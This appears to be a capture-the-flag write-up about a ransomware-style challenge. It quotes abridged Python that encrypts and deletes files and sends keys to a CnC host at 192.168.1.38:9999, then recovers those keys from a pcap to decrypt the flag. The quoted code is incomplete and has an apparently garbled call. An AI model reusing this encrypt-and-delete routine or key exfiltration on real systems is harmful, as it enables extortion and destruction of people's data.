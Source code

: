 ```python
from Crypto.Cipher import AES

def addPadding(u):
    # add padding for aes 16 block size

class V():
    def __init__(self):
        # get user OS

    def encryptFile(self, key, file):
        try:
            f = open(file, 'rb')
            d = f.read()
            f.close()
            d = addPadding(d)
            q = key.encrypt(d)
            f = open(file+'.enc', 'wb')
            f.write(q)
            f.close()
            os.remove(file)
        except:
            pass

    def gen_keys_and_encrypt(self):
        M = []
        for x in range(16):
            key = ''.join(random.choices(string.ascii_letters, k=16))
            M.append(key)
        u = ','.join(k for k in M)
        u = bytes(u, "utf-8")
        u = base64.b64encode(u)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.38', 9999))
        s.sendalexit(bytes(self.id, "utf-8"))
        s.recv(1)
        s.sendalexit(u)
        encKey = AES.new(key, AES.MODE_ECB)
        # encrypt all files with ext ['doc', '.txt', '.rc', '.ini', '.dat', '.conf', '_history']:
```

The generated keys themselves are secure,

```python
key = ''.join(random.choices(string.ascii_letters, k=16))
```

but they are then sended to CnC server using only base64.

Following the tcp stream to `192.168.1.38:9999` in the `dump.pcap` file, reveals the base64 keys.

```python
from Crypto.Cipher import AES

encFile = ""
with open('secrets.txt.enc', 'r') as f:
    encFile = f.read()

keys = ["mTGeljhDRKASKKhQ","FLrsSEveQQiloPRn","XedXHYBUHpIXDBJP","IOGPErjosxNiQrNM","RzvpbEURLdFfaGFM","vdBVDCvixjShCQvy","EQlcsnUtzCHyFPHM","JkDijgAFiVBWJaLz","ghcPIOSqCdCTqOpD","DneCwbkDHkojppHm","lVRZReAlaIzHgisc","NdjcgVVjiinxftCC","RkgLpRCqrnibrqsN","kzewteAgPEZdkzQJ","HnpGoUeqckEqxpQm","LSNWRarThRdiPLpM"]

for key in keys:
    aes = AES.new(key, AES.MODE_ECB)
    flag = aes.decrypt(encFile)

```